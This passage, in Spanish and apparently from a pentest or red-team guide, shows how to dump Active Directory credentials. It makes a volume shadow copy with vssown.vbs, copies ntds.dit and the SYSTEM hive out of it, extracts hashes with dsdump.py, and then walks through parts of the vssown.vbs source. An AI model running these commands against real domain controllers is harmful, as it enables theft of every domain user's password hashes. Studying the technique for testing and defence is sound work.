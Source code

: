 Usa el script vssown.vbs con el comando cscript para crear una copia de sombra del volumen del sistema:

        cscript vssown.vbs create

*Listar copias de sombra:*

Lista las copias de sombra creadas para obtener la ruta de la copia:

        cscript vssown.vbs list
*Copiar archivos:*

Copia los archivos ntds.dit y SYSTEM desde la ruta de la copia de sombra a una ubicación accesible:

        copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\ntds\ntds.dit C:\ruta\destino
        copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\system32\config\SYSTEM C:\ruta\destino

Extraer hashes:

En una máquina Linux, usa herramientas como esedbtools para analizar el archivo *ntds.dit* y extraer los hashes:

        python dsdump.py 



13.	**Proporcionar explicación sobre el código de vssown.vbs (Link)**

Se explica este script de *VBScript* (vssown.vbs).

Este script te ofrece una gestión completa de las copias de sombra de volumen desde la línea de comandos, con opciones que van desde listar y crear copias, hasta montarlas y ejecutar archivos desde ellas.

Encabezado y Autores: El script comienza con comentarios (*REM*) que indican que es una herramienta de gestión de copias de sombra de volumen (Volume Shadow Copy) desde la línea de comandos, parte de la presentación "Lurking in the Shadows".

Argumentos del Script: *Utiliza WScript.Arguments* para recoger argumentos de línea de comandos.

```bash
Set args = WScript.Arguments
```

Verificación de Argumentos: Si no se pasan argumentos, muestra las opciones disponibles y termina la ejecución.

```bash
if args.Count < 1  Then
  wscript.Echo "Usage: cscript vssown.vbs [option]"
  wscript.Echo "  Options:"
  wscript.Echo "  /list ... /build [filename]"
  wscript.Quit(0)
End If
```

Configuración del Servicio WMI

Conexión a WMI: Conecta al servicio WMI en el equipo local (strComputer = ".").

```bash
strComputer = "."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
```

